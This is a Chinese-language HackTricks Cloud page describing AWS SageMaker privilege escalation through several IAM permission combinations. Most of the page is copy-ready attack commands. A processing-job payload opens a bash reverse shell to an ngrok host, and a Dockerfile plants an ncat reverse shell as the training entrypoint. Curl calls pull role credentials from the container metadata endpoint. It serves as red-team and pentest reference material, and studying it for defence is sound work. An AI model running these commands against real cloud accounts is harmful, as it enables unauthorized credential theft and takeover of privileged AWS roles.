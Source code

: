 # AWS - Sagemaker提权

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## `iam:PassRole`，`sagemaker:CreateNotebookInstance`，`sagemaker:CreatePresignedNotebookInstanceUrl`

开始创建一个带有IAM角色访问权限的笔记本：
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
以下是包含`NotebookInstanceArn`字段的响应，其中将包含新创建的笔记本实例的ARN。然后，我们可以使用`create-presigned-notebook-instance-url` API生成一个URL，以便在笔记本实例准备就绪后访问它：
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
访问浏览器中的URL，单击右上角的“打开JupyterLab”，然后滚动到“启动器”选项卡，在“其他”部分下，单击“终端”按钮。

现在可以访问IAM角色的元数据凭据。

**潜在影响：** 特权升级到指定的Sagemaker服务角色。

## `sagemaker:CreatePresignedNotebookInstanceUrl`

如果已经在其上运行Jupyter **笔记本**，您可以使用`sagemaker:ListNotebookInstances`列出它们（或以任何其他方式发现它们）。您可以**为它们生成URL，访问它们，并像前一种技术中指示的那样窃取凭据**。
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**潜在影响:** 特权升级至附加的Sagemaker服务角色。

## `sagemaker:CreateProcessingJob,iam:PassRole`

拥有这些权限的攻击者可以使Sagemaker执行一个带有Sagemaker角色的处理作业。攻击者可以指定将在AWS托管的ECS帐户实例中运行的容器的定义，并窃取附加的IAM角色的凭据。
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**潜在影响:** 特定于Sagemaker服务角色的权限提升。

## `sagemaker:CreateTrainingJob`, `iam:PassRole`

拥有这些权限的攻击者将能够创建一个训练作业，在其中**运行任意容器**并附加一个**角色**。因此，攻击者将能够窃取该角色的凭据。

{% hint style="warning" %}
与之前的情况相比，这种情景更难利用，因为您需要生成一个Docker镜像，该镜像将直接将反向shell或凭据发送给攻击者（您无法在训练作业的配置中指定启动命令）。
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**潜在影响:** 特定于Sagemaker服务角色的权限提升。

## `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

拥有这些权限的攻击者（可能）能够创建一个**超参数调整作业**，在其中**运行任意容器**，并附加一个**角色**给它。\
_由于时间不足，我还没有利用，但看起来类似于先前的漏洞利用，请随时发送一个带有利用细节的PR。_

# 参考
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
